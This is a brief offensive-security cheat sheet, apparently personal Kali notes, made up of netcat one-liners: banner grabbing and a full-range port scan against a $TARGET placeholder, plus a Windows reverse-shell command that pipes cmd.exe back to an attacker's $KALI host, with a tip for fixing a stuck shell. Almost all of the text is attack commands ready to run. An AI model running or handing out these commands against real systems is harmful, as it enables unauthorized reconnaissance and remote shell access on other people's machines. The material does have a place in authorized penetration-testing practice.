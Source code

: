 Banner grabbing
```bash - kali
echo "" | nc -vv -n -w1 $TARGET $PORT
```
#### NC port scanner
```bash
nc -v -n -w2 -z $TARGET 1-65535 2>&1 | grep succeeded
```
#### Rev Shell stuck
If stuck on: `Connection received`, add the -e option:
```
nc.exe $KALI $PORT -e C:\Windows\System32\cmd.exe
```
